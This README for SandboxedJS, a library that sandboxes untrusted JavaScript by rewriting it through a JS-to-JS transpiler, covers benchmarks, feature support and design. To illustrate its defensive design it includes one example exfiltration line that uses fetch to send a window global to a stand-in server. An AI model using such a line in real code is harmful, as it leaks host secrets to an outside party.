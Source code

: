 # SandboxedJS

Sandbox untrusted/arbitrary JavaScript code and safely execute it in isolation.

## Performance

Run `npm run benchmark` to benchmark SandboxedJS's `saveEval` against a native js `eval`. Currently most benchmarks comparisons show SandboxedJS is **~8x** slower than native JS. However, if you don't count the time required to transpile the code, execution time can be between **~1.3x to ~8x** slower than native JS, depending on the kind of work being performed.

## Status

Under active development. Looking for others to help out!

## JS Support 

| Feature | Status |
| ------- | ------ |
| primitives | ✅ |
| `number` | ✅ |
| `string` | ✅ |
| `boolean` | ✅ |
| `null` | ✅ |
| `undefined` | ✅ |
| `bigint` | ✅ |
| `symbol` | ⚠️ |
| autoboxing primitives to objects | ⚠️ |
| binary operators (`+`, `-`, `%`, etc.) | ✅ |
| unary operators  (`+`, `-`, `typeof`, etc.) | ✅ |
| simple objects (i.e. `{a: true}`) | ✅ |
| arrays | ✅ |
| functions | ✅ |
| `this` | ⚠️ |
| `arguments` | ✅ |
| local variables | ✅ |
| assignment | ✅ |
| global variables | ⚠️ |
| prototypes | ⚠️ |
| `Object` global | ⚠️ |
| ternary operators | ❌ |
| global variables | ❌ |


| Legend |  |
| ------- | ------ |
| ✅ | Finished  |
| ⚠️ | In development  |
| ❌ | Haven't started work  |

## Comparison of JS in JS Implementations

| Name | Link | Performance |
| ----------- | ----------- | --------- |
| SandboxedJS |  | ~8x slower than native? |
| js.js | https://github.com/jterrace/js.js/ | [~200x slower than native]()https://github.com/jterrace/js.js/#status |
| JS-Interpreter | https://github.com/NeilFraser/JS-Interpreter/ | [~200x slower than native](https://github.com/NeilFraser/JS-Interpreter/issues/227) |


## Design

Let's say we want to sandbox the following untrusted JS code:

```js
fetch("https://api.example.com?stolenSecret=" + window.globalValue);
```

In this example, the untrusted code is attempting to grab a global value it should NOT have access to and pass the value to its server. If this code was naively run with `eval`, the host environment would be compromised.

To make untrusted JS code safe to run, SandboxedJS rewrites the untrusted code using a JS-to-JS transpilation step. Then it is safe to run `eval` on the transpiled js code. The resulting transpiled code of the above example might look something as follows:

```js
sContext.sLookUp("fetch").sCall([
  SBinaryOps.sBinaryAdd(
    new SStringValue("https://api.example.com?stolenSecret="),
    sContext.sLookUp("window").sLookUp("globalValue")
  )
])
```

Note, the "s" prefix is short for "sandboxed".

To produce this code, SandboxedJS uses [acorn](https://github.com/acornjs/acorn) to produce an AST of the untrusted JS. It then walks the entire AST and emits each piece of the tree in the format above.

## Running Locally

Install deps: `npm i`

Run benchmarks: `npm run benchmark`

Run tests: `npm test`

Build to `lib` folder: `npm run build`

## Unique Features

 - Add metadata to any JS value which is invisible to the client (untrusted) JS code but visible to the host environment.
